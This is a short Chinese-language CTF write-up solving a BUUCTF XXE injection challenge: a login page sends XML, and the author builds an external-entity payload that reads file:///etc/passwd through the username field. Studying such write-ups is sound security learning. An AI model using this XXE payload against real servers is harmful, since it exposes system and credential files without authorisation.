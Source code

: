 ### 文件读取注入

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67b17bbad0e0a243d4ffc3a1.jpg)

打开网页是登录页面

![](https://pic1.imgdb.cn/item/67b17be9d0e0a243d4ffc3a4.png)

查看网页源代码发现 ajax 发送的是 xml 形式的数据，应该存在 XXE 注入

![](https://pic1.imgdb.cn/item/67b17c04d0e0a243d4ffc3a9.jpg)

打开 BurpSuite 抓包请求确定是 xml 格式

![](https://pic1.imgdb.cn/item/67b17c74d0e0a243d4ffc3e9.jpg)

构造 payload，如图中的 xml 格式

第一行先声明 XML 的版本（1.0）和编码（UTF-8）

然后声明 DOCTYPE，名字自取

然后再声明 ENTITY，名字自取

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[
    <!ENTITY admin SYSTEM "file:///etc/passwd">
    ]>
<user>
    <username>
        &admin;
    </username>
    <password>
        123
    </password>
</user>
```

SYSTEM 标识符表示外部实体引用一个外部资源，可以是文件或 URL，传过去拿到 flag

![](https://pic1.imgdb.cn/item/67b17d15d0e0a243d4ffc3f8.jpg)